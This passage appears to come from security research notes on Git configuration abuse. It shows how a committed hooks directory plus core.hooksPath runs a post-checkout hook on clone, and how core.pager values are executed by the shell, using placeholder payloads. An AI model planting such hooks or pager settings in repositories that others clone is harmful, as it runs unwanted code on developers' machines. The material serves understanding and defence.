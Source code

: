 References:
- [Research: Git honours embedded bare repos, and exploitation via core.fsmonitor in a directory's .git/config affects IDEs, shell prompts and Git pillagers](https://github.com/justinsteven/advisories/blob/main/2022_git_buried_bare_repos_and_fsmonitor_various_abuses.md)
- [Research: Securing Developer Tools - Git Integrations](https://blog.sonarsource.com/securing-developer-tools-git-integrations)

#### core.hooksPath

[core.hooksPath](https://git-scm.com/docs/git-config#Documentation/git-config.txt-corehooksPath) sets different path to [hooks](https://git-scm.com/docs/githooks). You can create the post checkout hook within a repository, set the path to hooks with the `hooksPath`, and execute arbitrary code.

```bash
$ git clone "<REPO>" target_directory
$ cd target_directory
$ mkdir hooks
$ echo "#!/bin/sh" > hooks/post-checkout
$ echo "echo 'arbitrary code here'" >> hooks/post-checkout
$ # commit and push
```

To execute the payload, run the `git-clone`:

```bash
$ git clone -c core.hooksPath=hooks "<REPO>"
```

References:
- [git-config docs: core.hooksPath](https://git-scm.com/docs/git-config#Documentation/git-config.txt-corehooksPath)
- [githooks docs](https://git-scm.com/docs/githooks)

#### core.pager

[core.pager](https://git-scm.com/docs/git-config#Documentation/git-config.txt-corepager) specifies a text viewer for use by Git commands (e.g., less). The value is meant to be interpreted by the shell and can be used to execute arbitrary commands.

For example, in the following snippet `git-grep` has the `--open-files-in-pager` key that uses the default pager from `core.pager` if the value is unspecified in the arguments:

```bash
$ mkdir repo
$ cd repo
$ git init
$ echo "random" > hop
$ git add .
$ git -c core.pager='cmdname arg1 arg2 #' grep --open-files-in-pager .
```

If the pager value is not directly set by a user there is the order of preference:

1. `GIT_PAGER` environment variable.
1. `core.pager` configuration.
1. `PAGER` environment variable.
1. The default chosen at compile time (usually `less`).
